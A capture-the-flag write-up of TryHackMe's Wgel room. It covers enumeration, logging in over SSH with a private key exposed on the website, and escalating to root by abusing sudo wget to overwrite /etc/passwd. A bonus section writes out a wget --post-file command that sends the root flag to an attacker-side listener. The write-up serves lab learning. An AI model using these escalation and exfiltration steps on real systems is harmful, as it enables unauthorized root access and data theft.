# Wgel CTF
**Date:** November 12th 2022

**Author:** j.info

**Link:** [**Wgel CTF**](https://tryhackme.com/room/wgelctf) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 11374]
/sitemap              (Status: 200) [Size: 21080]
```

And another scan on /sitemap:

```
/index.html           (Status: 200) [Size: 21080]
/images               (Status: 200) [Size: 8658] 
/.ssh                 (Status: 200) [Size: 955]  
/blog.html            (Status: 200) [Size: 12745]
/css                  (Status: 200) [Size: 2842] 
/fonts                (Status: 200) [Size: 1160] 
/js                   (Status: 200) [Size: 3818] 
/about.html           (Status: 200) [Size: 12232]
/contact.html         (Status: 200) [Size: 10346]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/work.html            (Status: 200) [Size: 11428]
```

<br>

## Website Digging

Visiting the main page shows us a default Apache2 page:



There is no robots.txt to look at.

Taking a look through the view page source shows us a potential username:



Looking at /sitemap from our gobuster scan shows us an UNAPP page:



Well this is certainly a fun one... an exposed .ssh directory with a private ssh key inside it publicly accessable on the website:



<br>

## System Access

I save the file to my system and try and ssh over with the username we found as a comment in the page source code:



<br>

## System Enumeration

Taking a look at which users are able to login shows us that we're the only other user on the system besides root:



Looking around at files in our home directory shows the user flag in the /Documents directory:



Taking a look at SUID files with `find / -perm /4000 2>/dev/null` doesn't give us anything out of the ordinary.

Same thing with `getcap -r / 2>/dev/null`, no interesting capabilities either.

Checking to see if we have any interesting cron jobs shows there is nothing we can see:



Looking at our permissions with `id` shows that we're part of the sudo group, and looking at `sudo -l` shows we can run wget as root:



Heading over to the [**GTFOBins page for wget**](https://gtfobins.github.io/gtfobins/wget/#sudo) tells us how we can use this to escalate to root:



<br>

## Root

Since we're able to output whatever file we host as root to a location of our choosing I'm going to just add a user to the /etc/passwd file.

First I create a password hash that we'll be using with `openssl passwd password`:



Then I look at the existing /etc/passwd file on the target machine and copy it's contents to a file over on my system called passwd, then add my user to the bottom of it and save the file:



Then I set up a simple python http server and download the file to the target system replacing the existing /etc/passwd file:





And making sure it's there:



Ok we should be good to go!

I run a simple `su jason` and switch over to our newly created root privileged user:



And over in the root directory we find our final flag waiting:



<br>

## Bonus

Instead of creating a user we could have also deduced the name of the root flag based on how the user flag was named, and then just transfer that file to our system. The wget command can also transfer files elsewhere instead of just to your system.

To do this set up a netcat listener on your system and then run the following command on the target system to send the file back to you:

`sudo wget --post-file=/root/root_flag.txt http://$ip:$port`





<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding multiple pieces of sensitive information on a website and using them to ssh over to the webserver
- Using our ability to run wget as root to overwrite the existing /etc/passwd file with one we created that has a root user inside it with a password that we set
- Logging in as the newly created user to escalate to root

<br>

Many thanks to:
- [**MrSeth6797**](https://tryhackme.com/p/MrSeth6797) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)